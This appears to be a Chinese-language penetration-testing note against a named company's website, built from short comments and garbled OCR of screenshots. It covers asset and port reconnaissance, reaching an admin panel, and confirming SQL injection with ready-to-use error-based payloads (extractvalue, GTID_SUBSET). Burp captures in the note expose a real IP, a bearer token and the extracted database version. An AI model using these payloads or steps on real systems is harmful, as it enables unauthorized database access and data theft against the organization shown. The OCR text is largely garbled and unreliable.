








**师傅笔记：**

1%' and extractvalue(1, concat(0x7e,(select version()))) and '%'='

1%' AND GTID_SUBSET(CONCAT(0x7e,(select database()),0x7e),1) AND '%'='

个人笔记：

<!-- 这是一张图片，ocr 内容为：中参 R 20:02 工业数字李生平台河南恒茂创 门 A不安全HMCYT.COM/74/ 不 中入 FE 必应 口 日常力公 口沙箱 打点 河南省技术能手 DCTF 口知识 口漏洞阵  口 SRC  口漏洞 口打点 口 导入 设置 POE 应用 恒茂创远 红平果官网 股票代码837327 源代码/来源网络性能 内存 应用 EDITTHISCOOKIE HACKBAR SUPERSEARCHPLUSTOOLS 四 DOMJS 网页工作区 替换内容脚本代码段 JS.JS LAYERJS CHECKFORM.IS X LAYER.CSS?2.0 FORMAT.SUBSTRING(0,FORMAT.LENGTH-1); 113 FOMMAT-F 监视 O TOP 114 断点 WWW.HMCYT.COM IF(NOTNUL1) 115 V口74 116 遇到末捕获的异常时智停 IF(VALUES 117 1 74/ 在遇到异常时暂停 118 D APIVIS 作用域 观察API接口,对接口进行扫描 IF(NAME   MQZT")(//指聘目前状态 口 MOBILE 未暂停 LAYER.OPEN(I 口 NEED *请选择? INFO. 122 CONTENT: 调用堆栈 O LAYER.CSS?2.0 BTN:'确定 123 124 未暂停 LAYER.JS 125 CHECKFORM.JS XHR/提取断点 126 ELSEL 127 FORM.IS LAYER.OPEN(L DOM断点 CONTENT:INFO+N不能为空, 128 口 THEME/CN 129 BTN:确定 全局监听器 SSS Q. 130 1); 事件监听器断点 口 IMG CSP 违规断点 发盖率:不适用 CHULE RSS 开发者资源 LIGHTHOUSE 控制台新变化 搜索X网络状况 更盖率 OSSACCESSKEY AA -->

网站的资产归属

<!-- 这是一张图片，ocr 内容为：工业数字李生平台-河南恒茂创 R 公 巴众 HMCYT.COM/74/ 不安全 必应 口知识 口 导入 综合查询 资产测绘查询 BY不懂安全的开发 历史记录 信息收集 工具 配五 清空 创远 查询时间 域名 资产旧属 查询 码837327 中国移动通信集团北京有限公司 2024-03-18 16:05:21 SH.BMCC.COM.CN 查询 航天信息股份有限公司 2024-03-18 16:37:10 WWW.AISINO.COM 查询 南吕哈里科技有限公司 HALIGAME.COM 2024-03-20 15:38:52 查询 河南恒茂创远科技股份有限公司 2024-03-20 19:59:44 WWW.HMCYT.COM -->

查看开放的端口和服务

<!-- 这是一张图片，ocr 内容为：26旧必须 HMCYT.COM/74/ A不安全 必应 公司信息 口派 导入 知识 企业信息 详情 所属行业 公司地址 公司状态 人员规模 创远 837327 郑州经济技术开发区郑... 开业 计算机,通信和其他电... 74 端口查询 手动 自动 数据来源:FOFAMAP-HOST 出口数量:162 114.118206.1% 基础协议 协议 口版 21 FTP TCP HTTP 80 TCP HTTPS 443 TOP 3306 TOP MYSGL 威胁情报查询手动 自动 数据来源:奇安信威胁情报中心 相关URL 相关样本 标签 相关数据 ICP备案查询 查石证书 网站备案/许可证号 网站名称 网址 -->

尝试访问端口，看能否成功跳转。

查询备案号   进行域名筛选    

<!-- 这是一张图片，ocr 内容为：HMCYT.COM/74/ 安全 百度权重 移动权重 360 知识 未 未收录 未收录 备案信息 数据来源:站长工具 27 备案号 性质 企业 象ICP备09036438号 公司信息 企业信息 详情 -->

<!-- 这是一张图片，ocr 内容为：HUNTER.QIANXIN.COM/LIST?SEARCH-AWNWLM51BWJICIOI6LGRSUNQ5ASHM... 171 必应 口沙箱                                                                                                   O SRC 导入 河南省技术能手 设置 日常办公 应用 打点 源洞库 知识 POE 心奇安信 企业服务 ICPNUMBER"豫ICP备09036438号 吾法检索 独立IP微 数据去重 全部资产标签X+2 全部资产 全部IP标签 X 最近一个月 资产总数 -->

进入后台管理界面，对input进行sql注入测试。

<!-- 这是一张图片，ocr 内容为：班级管理 后合管理 网站首页 课程保管理 学科专业管理 班级管理 统计页 专业 班级名称 请输入班级名称 请选择专业 搜索 课程群管理 血则除 + 新增 组织架构管理 创建时间 负责人电话 名称 编号 负责人 简你 学校管理 2022-07-15 10 测试1班 专业管理 班级管理 学科专业管理 -->

burp抓包删cookie看看是否有未授权

输入11’报sql语句错误，呢么说明存在注入

<!-- 这是一张图片，ocr 内容为：RESPONSE REQUEST SELECT EXTENSION SELECT EXTENSION HEX PRETTY RAV 1 CET /API/ORGANIZATION/GETOPECIALTYNLISTYKEYXOR -11F HTTP/1.1 200  CK SCHOOLID&ISPAGEFALSE&PAGESIZE102 2CONTENT-LENGTH:275 PAGEINDOX L HTTP/1.1 CONTENT-TYPE:APPLICATION/JSON:CHARSET-UTF-8 2 HOST:114.116.205.115:8128 3 ACCEPT:APPLICATION/JSON,TEXT/PLAIN,*/S SERVER: 561 ACCESS-CONTROL-ALLON-ORIGIN:HTTP://ZZUGYJLDYW.HNCYHPS.COM:8129 4 AU THOR IZATION: BEARER AP59155PB643OCAC35EDA ID557ES 105843P636CD 5 USER-ABENT: NOZILLA/5.O (KINDOUS NT 10.0; WIN64; X64) APPLEWEBKIT/537 36 (KIITIL, LIKA ACCESS-COR CONTROL-ALLOW-CRODENTIALS:TRUE GECKO)CHROME/113.0.0.0 0 SAFARI/537.36 UAOQ X-POWORED-BY:ASP.NET 6CRIGIN:HTTP://Z2UGY J1DYW.LUCYHPG.COM:8129 X-CONTENT-TYPE-OPTIONS: S:NOSNIFF 7 REFERER:HTTO://22USY JLDYW.HMCYBPR.COM:8129/ 412:20:48  CMT DATE:WED,20 MAR 2024 12 8 ACCEPT-BNCODING: GXIP DEFLATE CONNECTION:CLOSE 9ACCEPT-LANGUAGE:2H-CN,2H:Q-0.9 10 SOC-CH-UA-PLATFORM:"WINDOWS" 1L SEC-CH-CA: "COOLE CHROME":"113","CHROMIUM","LI3", "NIT", "HOT-AGBRAND";V""113" SUCCESS:FALSE. 12SOC-CH-UA-MOBILE:90 CODE":200. 13 CONAECTION:CLOSE ROWS:NU11. "MSG" "YOU AAVE AN ERROR IN YOUR SQL SYNTAX; CHECK THE MARUAL THAT CORRESPORDS TO YOUR KI -->

1%' and extractvalue(1, concat(0x7e,(select version()))) and '%'='

<!-- 这是一张图片，ocr 内容为：RESPONSE SE PRETTY PRETTY SELECT EXTENSION RAW HEX GET参数需要URL编码 LCT /API/ORGANIZATION/OETSPECIALTYNLIST?KEYWORD 1 HTTP/1.1 200 CK 1%25'+AND*EXTRACTYALUE(L.TCONCAT(OX76,(SELECT*VERSION(J))]]]]]]*AND+' Z25''&AD'&SCHODID+&ISPA29号 2CONTENT-LENGTH:80 3CONTENT-TYPE:APPLICATION/JSON:CHARSET-UTF-8 FALSE&PAGESIGE 10&PAGEINDEX1 HTTF/1.1 2 HOST:114.116.208.115:8128 SERVER: ACCESS-CONTROL-ALLOW-ORIGIN:HTTP://AZEGYJLDYW.HMCYH96.COM:8129 3 ACCEPT:APPLICATION/JSON,TEXT/PLAIN 4 AUTHORIZATION: BEARERER AF59156F86430CAC35ADA ID557ES 1068P72887C2BE982388PDF6CD9643F628CD ACCESS-CONTROL-ALLOW-CREDENTIALS:TRUE 5 USER-RZENT:MOZILLA/5.0 (KINGOUS AT ID.D: WIN64: X-POWARED-BY:ASP.NET 8 X-CONTEAT-TYPE-OPTIONS:NOSNIFF CECKO)CHROME/113.0.0.0 SEFARI/537.36 UACQ 6 CRIGIN:HTTP://ZZUGYJLDYW.JUMCYBPG.COM:8129 9 DATE: WED, 20 MAR 2024 12:22:16 GUT 7 REFERER:HTTP://2ZUGY JLDYW.HMCYHPG.COM:8129/ CONNECTION:CLOSE 8 ACCEPT-ENCODING: GZIP,DEFLATE 9 ACCEPT-LANGUASE:2H-CN,ZH:Q-0.9 10 SEO-CH-UA-PLATFORM:"WINDOWS" SUOCESS :FALSE 11 SEC-CH-UA: "COOGLE CHROME";V""113", "CHROMIUM":Y""IL3". "NOT-ARBRAND":"""""24" CODE ":200. 12SEE-CH-UA-MOBILE:70 ROWS":NU11, `8.0.21-1 13 CONNECTION:CLOSE MSG : XPATH SYNTAX ERROR 14 15 数据库版本 -->

